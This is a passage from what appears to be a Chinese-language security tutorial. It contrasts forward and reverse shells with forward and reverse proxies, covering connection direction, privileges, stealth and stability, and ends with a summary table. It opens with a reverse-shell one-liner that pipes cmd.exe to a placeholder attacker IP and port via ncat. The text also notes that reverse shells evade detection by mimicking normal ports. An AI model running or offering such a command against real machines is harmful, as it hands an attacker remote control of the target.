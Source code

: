 ```
ncat <攻击者机器IP地址> <端口号> -e cmd.exe 
```

## 0x05 正 / 反向 Shell 对比

### 5.1📍连接发起方

正向 shell：由攻击者主动发起连接到目标主机。攻击者需要事先知道目标主机的 IP 地址和开放的端口，然后使用相应的工具或命令去尝试连接目标主机，建立起一个命令行界面，从而在目标主机上执行命令，获取信息或进行其他操作。

反向 shell：由目标主机主动向攻击者的机器发起连接。通常是攻击者通过一些手段，如利用漏洞在目标主机上执行特定的命令或植入恶意程序，使得目标主机主动连接到攻击者指定的 IP 地址和端口，从而为攻击者建立一个可以控制目标主机的 shell 环境。

### 5.2 📍连接方向

正向 shell：连接方向是从攻击者指向目标主机，就像攻击者直接 “走进” 目标主机的系统一样，数据和命令的传输是从攻击者的机器流向目标主机。

反向 shell：连接方向则相反，是从目标主机指向攻击者的机器，如同目标主机主动 “伸出援手” 连接到攻击者的环境，数据和命令的传输是从目标主机流向攻击者的机器。

### 5.3 📍权限要求

正向 shell：通常要求攻击者具有较高的权限才能成功建立连接并执行操作。因为需要能够突破目标主机的安全防护，如防火墙的限制，直接访问目标主机的特定端口等。

反向 shell：相对来说，对攻击者在目标主机上的初始权限要求较低。只要能够在目标主机上执行一段能够发起连接的代码或命令，就有可能建立反向 shell，之后再通过一些提权操作来获取更高的权限。

### 5.4 📍隐蔽性

正向 shell：由于是攻击者主动发起连接，容易被目标主机的网络监控设备或安全防护软件检测到，尤其是当连接的源 IP 地址不属于目标主机所在的信任网络范围时，其隐蔽性较差。

反向 shell：因为是目标主机主动向攻击者连接，在一些情况下，其连接行为可能更容易被伪装成正常的网络通信，相对更具隐蔽性。例如，攻击者可以将反向 shell 的连接端口设置为与目标主机正常对外通信的端口相同，从而降低被发现的风险。

### 5.5 📍稳定性

正向 shell：稳定性相对较好，一旦连接建立成功，只要攻击者不主动中断连接，且网络环境保持稳定，连接通常可以持续保持，便于攻击者持续地对目标主机进行操作。

反向 shell：其稳定性可能会受到多种因素的影响，如目标主机的网络配置变化、防火墙规则更新、网络波动等，都可能导致反向 shell 连接中断，需要攻击者重新建立连接。

## 0x06 总结对比🎉

| 概念       | 描述                                   | 主体   | 连接发起者 | 常用场景                                           |
| ---------- | -------------------------------------- | ------ | ---------- | -------------------------------------------------- |
| 正向代理   | 客户端访问服务器的中介                 | 代理   | 客户端     | 隐藏客户端、访问控制、内容缓存、访问记录           |
| 反向代理   | 服务器资源访问的中介                   | 代理   | 客户端     | 隐藏服务器、负载均衡、安全保护、内容缓存、路由功能 |
| 正向 Shell | 目标设备监听端口，攻击者连接获得 Shell | 目标   | 攻击者     | 远程控制（需目标开放端口）                         |
| 反弹 Shell | 目标设备连接攻击者，反弹 Shell 权限    | 攻击者 | 目标       | 绕过防火墙出站连接限制                             |

### 小结 📝

理解这些概念的关键是关注主体角色（是代理还是 Shell 主机）、连接方向（谁发起连接），以及在实际应用场景中的安全限制。希望这篇文章帮助大家更清晰地理解正向代理、反向代理、正向 Shell 和反弹 Shell 的区别和应用场景！✨
